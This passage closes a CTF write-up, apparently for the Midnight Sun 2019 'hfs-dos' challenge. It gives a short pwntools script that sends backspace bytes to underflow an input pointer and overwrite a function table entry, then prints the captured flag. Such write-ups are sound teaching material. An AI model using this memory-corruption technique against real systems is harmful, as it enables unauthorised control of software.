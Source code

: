 Take note that the pointer will be reset after 4 input characters, so we cannot just do everything in one shot.

```
from pwn import *

p = remote("hfs-os-01.play.midnightsunctf.se", 31337)
# p = process("./run")

sleep(1)
p.sendline("sojupwner")
p.send("\x7f" * 11 + "\x4f\x01\x4f\x01")
p.send("\x7f" * 6 + "LAG2")
p.send("pong")
p.interactive()
```

`midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`

---

I think the memory layout of the variables couldn't have been better placed... If the function table or flag file name was below the input buffer this would have been a big headache.

Feel free to ask anything in the comments.

[part1]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-mbr/hfs-mbr
[download]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-mbr/hfs-os.tar.gz
[gdbinit]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-dos/gdbinit